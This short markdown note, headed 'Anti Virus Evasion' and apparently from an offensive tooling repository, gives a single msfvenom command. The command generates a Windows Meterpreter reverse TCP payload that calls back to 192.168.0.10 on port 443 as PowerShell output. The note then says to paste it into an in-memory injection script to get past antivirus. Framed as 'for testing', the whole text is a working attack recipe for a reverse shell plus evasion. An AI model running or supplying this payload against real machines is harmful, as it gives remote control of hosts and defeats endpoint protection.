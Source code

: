 # Anti Virus Evasion

Generate a malicious payload for testing with AV:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=443 -f powershell`

Add the output to  `in_memory_injection.ps1`.



